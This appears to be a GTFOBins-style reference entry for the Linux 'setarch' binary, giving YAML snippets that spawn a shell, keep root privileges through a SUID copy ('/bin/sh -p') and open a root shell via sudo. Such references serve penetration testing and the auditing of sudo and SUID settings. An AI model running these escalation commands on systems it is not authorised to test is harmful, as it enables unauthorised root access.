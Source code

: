 ```yaml
---
description: `uname -m` can be used in place of `arch` to obtain the architecture.
functions:
  shell:
    - code: setarch $(arch) /bin/sh
  suid:
    - code: ./setarch $(arch) /bin/sh -p
  sudo:
    - code: sudo setarch $(arch) /bin/sh
---
```

